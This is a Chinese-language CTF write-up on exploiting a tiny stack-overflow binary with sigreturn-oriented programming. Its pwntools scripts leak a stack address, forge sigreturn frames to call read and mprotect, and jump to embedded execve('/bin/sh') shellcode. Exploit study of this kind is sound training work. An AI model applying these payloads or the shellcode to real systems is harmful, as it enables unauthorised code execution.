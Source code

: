 # SROP

SROP是一种特殊的rop。

## Vuln
程序漏洞明显，就是栈溢出，而且没有加载so库，只有短短几十字节代码。

## leak
leak的话，利用write函数即可

```Python
def sm_leak():
    payload = p64(main_vuln_addr)*3
    io.send(payload)
    payload = p64(0x4000B3)[0]  # write(1, stack, 0x400)
    io.send(payload)
    data = io.recv(0x200)
    io.clean()
    return data
```

主要的技巧就是:

1. 先读取一次，这样栈上先覆盖几个main函数地址。
2. 读取第二次的时候，故意取n个字节读取，从而控制rax的值。(根据read返回值是读取到的字节数)
3. 注意第二次读取的时候，ret的地址要改成syscall

## SROP
新姿势srop
### Ref
[srop原理](http://www.freebuf.com/articles/network/87447.html)


```Python
def sm_func(func_id, marg0, marg1, marg2, mstack, mrip):
    mframe = SigreturnFrame()
    mframe.rax = func_id
    mframe.rdi = marg0
    mframe.rsi = marg1
    mframe.rdx = marg2
    mframe.rsp = mstack
    mframe.rip = mrip
    sig_padding = p64(main_vuln_addr)
    sig_padding += p64(syscall_addr)
    payload = sig_padding + str(mframe)
    return payload
```
### step1
首先要把之前leak的栈地址给填充真正的rop

```Python
lk_use_addr = sm_leak()[0x10:0x18]
lk_use_addr = (u64(lk_use_addr)-0x400)&0xFFFFFFFFFFFFF000
log.info("rop address : " + hex(lk_use_addr))
payload = sm_func(constants.SYS_read, constants.STDIN_FILENO, lk_use_addr, 0x400, lk_use_addr, syscall_addr).ljust(0x400, chr(0))
io.send(payload)
payload = payload[8:23]
io.send(payload)
```

### 调用mprotect

调用mrpotct并且rsp转移到一个地址，这个地址填充shellcode地址。<br>


```Python
# size must be 0x1000*n
# mprotect(lk_use_addr, 0x1000, 7)
payload = sm_func(constants.SYS_mprotect, lk_use_addr, 0x1000, 7, lk_use_addr+0x200, syscall_addr).ljust(0x200, chr(0))
payload += p64(lk_use_addr+0x208)   # rop to shellcode address
payload += "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
io.send(payload.ljust(0x400, chr(0)))
payload = payload[8:23]
io.send(payload)
io.interactive()
```

## Tips
注意，read是阻塞，所以send后面需要加延时，这样才不使得read(0, buf, 0x400)一定是接收0x400字节
